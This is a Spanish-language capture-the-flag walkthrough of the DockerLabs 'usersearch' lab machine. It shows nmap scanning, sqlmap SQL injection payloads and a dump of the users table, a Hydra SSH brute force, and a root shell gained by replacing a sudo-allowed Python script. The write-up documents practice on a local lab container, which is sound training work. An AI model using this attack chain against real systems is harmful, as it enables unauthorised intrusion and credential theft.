

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SQLi` `SQLMap` `Brute Force` `Sudoers` `Python` 

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip usersearch.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh usersearch.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.18.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.18.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-18 18:59 +0100
Nmap scan report for 172.18.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
|_  256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: User Search
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

Identificamos los puertos `22` (SSH) y `80` (HTTP) abiertos.

Accedemos al servicio web del puerto `80` y encontramos la siguiente página:


Intentamos vectores de ataque comunes como `inyección de comandos`, `XSS` y `SSTI`, sin obtener ningún resultado.

Decidimos usar `sqlmap` para verificar si el parámetro de búsqueda es vulnerable a `SQL Injection`.

Para ello, primero interceptamos la petición con `BurpSuite`.



Guardamos la petición en un archivo con nombre `request.txt`.

## SQL INJECTION

Procedemos a lanzar `sqlmap` utilizando el archivo de la petición interceptada para enumerar las bases de datos.

```Bash
sqlmap -r request.txt --batch --dbs
```

Info:
```
      ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 19:17:00 /2026-02-18/

---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 1273 FROM (SELECT(SLEEP(5)))gSfO) AND 'fRYl'='fRYl

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: user=test' UNION ALL SELECT NULL,CONCAT(0x717a767a71,0x6b554a4c54454b6c66547268515465596d69564852586d496a5875557275544f5169697157494471,0x716a6b7171),NULL-- -
---
[19:17:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:17:11] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] testdb

[19:17:11] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 19 times
[19:17:11] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.18.0.2'

[*] ending @ 19:17:11 /2026-02-18/
```

Vemos que hay una base de datos llamada `testdb`, y procedemos a enumerar sus tablas.

```Bash
sqlmap -r request.txt --batch -D testdb --tables
```

Info:
```

       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 19:19:57 /2026-02-18/

[19:19:57] [INFO] parsing HTTP request from 'request.txt'
[19:19:57] [INFO] resuming back-end DBMS 'mysql' 
[19:19:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 1273 FROM (SELECT(SLEEP(5)))gSfO) AND 'fRYl'='fRYl

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: user=test' UNION ALL SELECT NULL,CONCAT(0x717a767a71,0x6b554a4c54454b6c66547268515465596d69564852586d496a5875557275544f5169697157494471,0x716a6b7171),NULL-- -
---
[19:19:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:19:57] [INFO] fetching tables for database: 'testdb'
Database: testdb
[1 table]
+-------+
| users |
+-------+

[19:19:57] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.18.0.2'

[*] ending @ 19:19:57 /2026-02-18/
```

Hay una única tabla llamada `users`. 

Volcamos el todo contenido dentro de dicha tabla.

```Bash
sqlmap -r request.txt --batch -D testdb -T users --dump
```

Info:
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.12#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 19:20:05 /2026-02-18/

[19:20:05] [INFO] parsing HTTP request from 'request.txt'
[19:20:05] [INFO] resuming back-end DBMS 'mysql' 
[19:20:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 1273 FROM (SELECT(SLEEP(5)))gSfO) AND 'fRYl'='fRYl

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: user=test' UNION ALL SELECT NULL,CONCAT(0x717a767a71,0x6b554a4c54454b6c66547268515465596d69564852586d496a5875557275544f5169697157494471,0x716a6b7171),NULL-- -
---
Database: testdb
Table: users
[3 entries]
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | adminpassword | admin    |
| 2  | user1password | user1    |
| 3  | kvzlxpassword | kvzlx    |
+----+---------------+----------+

[19:20:05] [INFO] table 'testdb.users' dumped to CSV file '/home/trihack/.local/share/sqlmap/output/172.18.0.2/dump/testdb/users.csv'
[19:20:05] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.18.0.2'

[*] ending @ 19:20:05 /2026-02-18/
```

Encontramos tres usuarios con sus credenciales.

Guardamos los usuarios en un archivo `users.txt` y las contraseñas en un archivo `pass.txt` para intentar acceder al servicio `SSH`.

## FUERZA BRUTA

Lanzamos un ataque de `fuerza bruta` contra el servicio `SSH` utilizando `Hydra` y los diccionarios generados.

```Bash
hydra -L users.txt -P pass.txt ssh://172.18.0.2 -t 64
```

Info:
```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-18 19:24:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: kvzlx   password: kvzlxpassword
1 of 1 target successfully completed, 1 valid password found
```

Encontramos credenciales válidas para el usuario `kvzlx` : `kvzlxpassword`.

Accedemos por `SSH` a la máquina.

```bash
ssh kvzlx@172.18.0.2
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos los permisos `sudo` del usuario.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for kvzlx on 858f60c56ca0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User kvzlx may run the following commands on 858f60c56ca0:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```

Observamos que podemos ejecutar el script `/home/kvzlx/system_info.py` como `root` sin proporcionar contraseña.

Vamos a la ruta `/home/kvzlx/` y borramos el archivo `system_info.py` original para sustituirlo por el nuestro con el mismo nombre, aprovechando que tenemos permisos de escritura en el directorio.

```Bash
rm system_info.py
# rm: remove write-protected regular file 'system_info.py'? y
```
Creamos el nuevo script malicioso.

```Bash
nano system_info.py
```

Código:
```python
import os
import pty

os.setuid(0)
os.setgid(0)

pty.spawn("/bin/bash")
```

Finalmente, ejecutamos el script con sudo para obtener una `shell` como root.

```Bash
sudo /usr/bin/python3 /home/kvzlx/system_info.py
```

Info:
```
root@858f60c56ca0:/home/kvzlx# whoami
root
root@858f60c56ca0:/home/kvzlx#
```

Ya somos root!